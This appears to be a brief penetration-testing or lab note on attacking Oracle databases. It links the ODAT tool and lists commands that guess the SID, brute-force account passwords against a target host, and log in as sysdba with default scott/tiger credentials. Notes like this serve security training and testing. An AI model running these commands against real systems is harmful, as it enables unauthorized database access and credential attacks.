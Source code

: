 # Oracle

[https://github.com/quentinhardy/odat](https://github.com/quentinhardy/odat)

```
./odat.py sidguesser -s 10.129.95.188 -p 1521

./odat.py passwordguesser -s 10.129.95.188 -d XE --accounts-file account.txt
/usr/lib/oracle/11.2/client64/bin/sqlplus scott/tiger@10.129.95.188:1521/XE as sysdba
```